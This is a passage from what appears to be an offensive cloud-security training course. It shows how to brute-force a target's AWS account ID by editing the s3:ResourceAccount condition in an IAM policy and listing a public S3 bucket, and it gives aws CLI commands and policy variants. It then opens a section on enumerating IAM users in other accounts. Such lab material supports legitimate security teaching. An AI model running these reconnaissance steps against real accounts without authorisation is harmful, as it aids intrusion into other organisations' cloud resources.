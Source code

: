 ```
    12              "Condition": {
    13                  "StringLike": {"s3:ResourceAccount": ["1*"]}
    14              }
    15          }
    16      ]
    17  }

kali@kali:~$ aws --profile attacker iam put-user-policy \
--user-name enum \
--policy-name s3-read \
--policy-document file://policy-s3-read.json

kali@kali:~$ aws --profile enum s3 ls offseclab-assets-private-kaykoour
                           PRE sites/
```

> Listing 31 - Changing the Condition in the Policy and Testing Again

Once we know that the policy starts with a digit, we can move to the next one by modifying the condition of the policy like so:

```
- __"StringLike": {"s3:ResourceAccount": ["10*"]}__
- __"StringLike": {"s3:ResourceAccount": ["11*"]}__
...
- __"StringLike": {"s3:ResourceAccount": ["18*"]}__
- __"StringLike": {"s3:ResourceAccount": ["19*"]}__
```

> Listing 32 - Modifying the Policy Condition Statement to Brute Force the AccountID

We can automate this process programmatically and build an application to obtain the account ID from a publicly-accessible bucket or object.

Tools such as [_s3-account-search_](https://github.com/WeAreCloudar/s3-account-search) also implement this technique, although this one uses _roles_ instead of _users_ to link the policy to the condition.

As we can observe, there are several ways to implement this. The key concept is leveraging the "Condition" feature of the IAM policies to control the _cross-account_ access. We used S3 because it's more common to find publicly-readable S3 objects than other resources, but theoretically, we can use this technique with other services as well.

## 3.4. Enumerating IAM Users in Other Accounts

In the previous section, we examined a case where the API was misused to obtain the account ID of a target. In this section, we will continue to build upon the previous lab. We'll learn about another example of API abuse that enumerates _internal IAM identities_ when we know the AWS account ID of the target.

Previously, we leveraged resources that had either publicly accessible permissions or, at the very least, permissions that granted _read_ access to the _attacker's_ account. We need to be aware of the latter because an important concept in this case is that sometimes we want a cloud resource to be publicly available on the internet, but at other times, we may want a resource to be accessible only to specific accounts. In AWS, this is referred to as [**cross-account access**](https://docs.aws.amazon.com/IAM/latest/UserGuide/reference_policies_evaluation-logic-cross-account.html).
